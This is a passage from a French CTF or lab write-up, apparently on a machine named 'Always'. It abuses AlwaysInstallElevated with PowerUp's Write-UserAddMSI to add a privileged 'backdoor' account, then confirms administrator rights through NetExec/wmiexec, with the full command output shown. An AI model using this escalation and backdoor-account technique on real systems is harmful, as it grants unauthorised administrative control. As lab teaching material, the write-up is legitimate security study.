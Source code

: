 Les installeurs sont effectiveness exécutés sans une demande UAC, un attaquant peut en profiter pour exécuter des tâches d'administration, ce que nous allons faire.

Pour cela, j'ai copié [le vieux PowerUp](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp) depuis un partage SMB que j'avais lancé via Docker. J'ai ensuite importé via Powershell le module et appellé la fonction `Write-UserAddMSI`.

```console
> Import-Module .\PowerUp.ps1
> Write-UserAddMSI
```

Cette dernière génère un exécutable `UserAdd.msi` dans le dossier courant. Malheureusement ce programme est graphique, mais ici, on dispose de l'accès RDP.

Cet outil demande un nom d'utilisateur et mot de passe puis ajoute un utilisateur privilégié sur le système. Ici, j'ai laissé les identifiants par défaut.

Une fois exécuté, on peut vérifier que le compte est créé :

```console
$ nxc smb 192.168.56.108 -u backdoor -p 'password123' -x "whoami /all"
SMB         192.168.56.108  445    ALWAYS-PC        [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:ALWAYS-PC) (domain:Always-PC) (signing:False) (SMBv1:True) 
SMB         192.168.56.108  445    ALWAYS-PC        [+] Always-PC\backdoor:password123 (Pwn3d!)
SMB         192.168.56.108  445    ALWAYS-PC        [+] Executed command via wmiexec
SMB         192.168.56.108  445    ALWAYS-PC        KULLANICI BÿLGÿLERÿ
SMB         192.168.56.108  445    ALWAYS-PC        -------------------
SMB         192.168.56.108  445    ALWAYS-PC        Kullanìcì adì      SID
SMB         192.168.56.108  445    ALWAYS-PC        ================== ============================================
SMB         192.168.56.108  445    ALWAYS-PC        always-pc\backdoor S-1-5-21-381724225-1041572993-564731166-1003
SMB         192.168.56.108  445    ALWAYS-PC        GRUP BÿLGÿLERÿ
SMB         192.168.56.108  445    ALWAYS-PC        --------------
SMB         192.168.56.108  445    ALWAYS-PC        Grup Adì                                                  Tür              SID          Öznitelikler
SMB         192.168.56.108  445    ALWAYS-PC        ========================================================= ================ ============ =========================================================================
SMB         192.168.56.108  445    ALWAYS-PC        Everyone                                                  ÿyi bilinen grup S-1-1-0      Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\Yerel hesap ve Administrators grubunun üyesi ÿyi bilinen grup S-1-5-114    Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        BUILTIN\Administrators                                    Diºer Ad         S-1-5-32-544 Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup, Grup sahibi
SMB         192.168.56.108  445    ALWAYS-PC        BUILTIN\Users                                             Diºer Ad         S-1-5-32-545 Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\NETWORK                                      ÿyi bilinen grup S-1-5-2      Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\Authenticated Users                          ÿyi bilinen grup S-1-5-11     Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\This Organization                            ÿyi bilinen grup S-1-5-15     Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\Yerel hesap                                  ÿyi bilinen grup S-1-5-113    Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
SMB         192.168.56.108  445    ALWAYS-PC        NT AUTHORITY\NTLM Authentication                          ÿyi bilinen grup S-1-5-64-10  Zorunlu grup, Varsayìlan olarak etkin, Etkinleƒtirilmiƒ grup
```